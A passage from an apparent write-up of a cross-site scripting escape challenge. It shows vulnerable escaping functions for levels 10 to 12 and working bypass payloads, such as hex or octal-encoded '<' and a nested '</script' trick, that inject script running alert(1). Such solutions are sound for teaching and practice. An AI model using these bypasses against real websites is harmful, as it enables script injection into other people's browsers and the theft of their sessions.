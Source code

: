 ```
			 <script> \n\
				var v = document.getElementById('name'); \n\
				v.innerHTML = '<a href=#>{name}</a>'; \n\
			<\/script> \n\
   			 ",
   			 { name : s }
    		);
   	 }
```

Injection takes place in a JS string context and since “\” is not escaped in the htmlEscape function, we can use hex or octal encoding for the “<” symbol and bypass the escaping function.

Valid solutions:

```
	\x3csvg onload=alert(1)

    	\74svg onload=alert(1)

```
###Level 11:

```
	function escape(s) {
    		// Spoiler for level 2
    		s = JSON.stringify(s).replace(/<\/script/gi, '');
    		return '<script>console.log(' + s + ');</script>';
    	}
```


I’ve seen similar escaping functions in real applications, normally it is not a good idea to fix the input data, you either accept it or reject it but trying to fix it normally leads to bypasses. In this case the escape function replaces “</script” with an empty string so shortest solution is:

```
    	</</scriptscript><script>alert(1)//
```


###Level 12:

```
   	 function escape(s) {
    		// Pass inn "callback#userdata"
    		var thing = s.split(/#/);
    		if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
    		var obj = {'userdata': thing[1] };
    		var json = JSON.stringify(obj).replace(/\//g, '\\/');
    		return "<script>" + thing[0] + "(" + json +")</script>";
    	}
```


Similar to level 7 but this time the backslash is also escaped so we use a similar vector with a different way to comment the junk out:
